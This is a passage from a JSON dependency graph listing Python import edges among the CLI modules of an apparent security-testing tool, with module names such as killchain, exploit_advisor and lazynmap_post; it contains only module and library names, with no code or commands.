"target": "cli.reasoning_stream"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.dashboard_layout"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.dashboard_layout"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.dashboard_layout"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "core.profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/doctor.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/engagement_hooks.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "defusedxml.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploit_advisor.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "defusedxml.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "rich.tree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/exploration_view.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_match.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_match.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_match.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_match.py", "target": "cli.fuzzy_picker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "curses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "difflib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/fuzzy_picker.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "difflib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_advisor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/graph_overlay.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/headless.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/killchain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/killchain.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/killchain.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/killchain.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "textual.screen"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "modules.jsonl_tail"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_monitor.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "textual.screen"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.jsonl_tail"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/lazynmap_post.py", "target": "cli.recon_plan"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "curses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/marketplace_config.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/noise_verbs.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/ops_commands.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/output_mode.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/output_mode.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/output_mode.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/output_mode.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/output_mode.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_command.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_graph.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_overlay.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/palette_telemetry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/phase_labels.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/plugin_tiers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/plugin_tiers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/plugin_tiers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/plugin_tiers.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/protips.py", "target": "cli.noise_verbs"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/purple_tui.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "cli.noise_verbs"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reactive_hints.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", 